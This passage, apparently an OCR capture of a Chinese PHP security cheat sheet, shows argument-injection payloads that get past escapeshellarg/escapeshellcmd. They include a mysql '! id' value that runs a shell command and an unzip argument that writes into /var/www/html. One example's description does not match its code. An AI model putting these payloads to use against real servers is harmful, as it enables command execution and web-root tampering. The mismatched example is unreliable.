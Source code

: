 > 
你可以得到文件内容，使用如下payload


```
file_put_contents('passwords.txt', file_get_contents($_FILES['password']['tmp_name']));

```

#### MYSQL

> 
执行sql语句


```
$sql = 'SELECT sth FROM table';
system("mysql -uuser -ppassword -e ".escapeshellarg($sql));

```

> 
运行id命令


```
$sql = '! id';
system("mysql -uuser -ppassword -e ".escapeshellarg($sql));

```

#### UNZIP

> 
从archive.zip解压所有*.tmp文件到/tmp目录


```
$zip_name = 'archive.zip';
system(escapeshellcmd('unzip -j '.$zip_name.' *.txt -d /aa/1'));

```

> 
从archive.zip解压所有*.tmp文件到/var/www/html目录


```
$zip_name = '-d /var/www/html archive.zip';
system('unzip -j '.escapeshellarg($zip_name).' *.tmp -d /tmp');

```

#### 未设置LANG环境变量，则去除非ASCII字符

```
$filename = 'résumé.pdf';
// string(10) "'rsum.pdf'"
var_dump(escapeshellarg($filename));
setlocale(LC_CTYPE, 'en_US.utf8');
//string(14) "'résumé.pdf'" 
var_dump(escapeshellarg($filename));

```
